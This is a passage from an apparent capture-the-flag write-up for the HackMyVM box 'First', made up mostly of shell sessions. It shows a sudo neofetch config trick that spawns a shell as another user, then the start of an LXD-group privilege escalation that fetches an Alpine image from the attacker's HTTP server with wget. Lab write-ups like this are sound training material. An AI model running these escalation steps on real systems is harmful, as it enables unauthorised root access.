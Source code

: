 <h1 align="center"> Neofetch: <a href="https://gtfobins.github.io/gtfobins/neofetch/">https:/gtfobins.github.io/gtfobins/neofetch/</a></h1/>
What this actually do is making the neofetch run a command through its config

```bash
www-data@first:/tmp$ echo '/bin/bash' > neof
www-data@first:/tmp$ cat neof 
/bin/bash
www-data@first:/tmp$ sudo -u first neofetch --config neof 
first@first:/tmp$ cd
first@first:~$ id
uid=1000(first) gid=1000(first) groups=1000(first),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
## LXD Privilage Escalation  
  
<h1 align="center"> LXD Priv Esc: <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation">https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation</a></h1/>

```bash
┌──(coolatos㉿CooLaToS)-[~/HMV/First]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git      
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 8.50 MiB/s, done.
Resolving deltas: 100% (15/15), done.
                                                                                                                                                                                                                                             
┌──(coolatos㉿CooLaToS)-[~/HMV/First]
└─$ cd lxd-alpine-builder          
┌──(coolatos㉿CooLaToS)-[~/HMV/First/lxd-alpine-builder]
└─$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
┌──(coolatos㉿CooLaToS)-[~/HMV/First/lxd-alpine-builder]
└─$ sudo ./build-alpine -a i686
┌──(coolatos㉿CooLaToS)-[~/HMV/First/lxd-alpine-builder]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


first@first:~$ wget $ip/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-08-29 08:01:15--  http://10.1.1.2/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.1.1.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64-20210218_0139.tar.gz                    100%[========================================================================================================================================>]   3.11M  --.-KB/s    in 0.009s  

2022-08-29 08:01:15 (362 MB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

first@first:~$ lxc image import ./alpine*.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
first@first:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm, zfs, ceph) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
```